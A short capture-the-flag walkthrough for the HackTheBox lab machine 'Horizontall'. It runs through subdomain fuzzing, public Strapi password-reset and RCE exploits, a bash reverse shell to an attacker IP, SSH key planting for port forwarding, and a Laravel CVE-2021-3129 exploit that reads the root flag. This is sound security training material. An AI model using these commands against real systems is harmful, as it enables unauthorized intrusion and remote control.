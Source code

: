 horizontall
---

## Steps

1. enumerate subdomains

`wfuzz -w /subdomains-top1million-110000.txt -u http://horizontall.htb/ -hc 301 -v -c -H "Host:FUZZ.horizontall.htb"

We find `api-prod.horizontall.htb`

2. enumerating subdirectories

`gobuster dir -u api-prod.horizontall.htb -w /usr/share/wordlists/dirb/common.txt`

We get `/admin` as a subdirectoy, and going to it, we get redirected to `/login`

2. RCE 1 - Reset Password

https://www.exploit-db.com/exploits/50239

This exploit allows you to reset the password for the user `admin`, and set it to `SuperStringPassword1`

3. Logging in as admin and RCE 2

https://www.exploit-db.com/exploits/50238

This exploit requires the JWT generated by RCE, and it allows you to perform RCE.

Naturally, we call a reverse shell

```
python3 rce2.py http://api-prod.horizontall.htb  eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjM2NzY5MzQzLCJleHAiOjE2MzkzNjEzNDN9.u0Myxy4hAQoKjzE3UXx4YOVH27yGnGFtsEdBxScn9j8 "bash -c 'bash -i >& /dev/tcp/10.10.14.2/9998 0>&1'" 10.10.14.2 
```

With this shell, we can get the user flag

## Root flag

1. Get listening services

`ss -tuan | grep LISTEN`

We see that a service is running on port 8000

2. Port Forwarding

We port forward it to our attacker machine.

On the attacker machine, we copy our public key over to the victim machine, and put it in `~/.ssh/authorized_keys`

We then run 

`ssh -i key -L 8000:127.0.0.1:8000 strapi@horizontall.htb`

3. RCE 3

Going to localhost:8000 on our attacker machine, we can see the service running of port 8000 on the victim machine

We see that it's Larvarel v8, which has an RCE

https://github.com/nth347/CVE-2021-3129_exploit

`./exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"





